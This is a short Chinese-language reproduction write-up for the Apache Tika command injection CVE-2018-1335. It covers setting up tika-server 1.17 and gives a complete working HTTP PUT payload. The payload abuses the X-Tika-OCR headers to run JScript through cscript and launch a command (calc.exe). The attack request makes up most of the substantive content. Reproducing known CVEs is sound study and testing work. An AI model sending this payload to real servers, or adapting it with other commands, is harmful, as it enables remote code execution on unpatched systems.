



# Apache Tika中的命令注入(CVE-2018-1335)

## 0x01 搭建漏洞环境

*影响版本*
Tika-server版本<1.18 

以tika-server-1.17来搭建环境
在官网下载:
`https://archive.apache.org/dist/tika/tika-server-1.17.jar`

下载后，启动命令为：
```
java -jar tika-server-1.17.jar
```


打开浏览器,输入地址`http://localhost:9998/`，看见以下网页，则环境搭建成功。



## 0x02 漏洞复现

PAYLOAD:
```
PUT /meta HTTP/1.1
Host: localhost:9998
Connection: close
User-Agent: python-requests/2.19.1
X-Tika-OCRTesseractPath: "cscript"
Content-type: image/jp2
Expect: 100-continue
X-Tika-OCRLanguage: //E:Jscript
Content-Length: 99

var oShell = WScript.CreateObject("WScript.Shell");
	var oExec = oShell.Exec('cmd /c calc.exe');

```

利用burp发包，成功。



复现成功


## 参考链接

- https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335
- https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/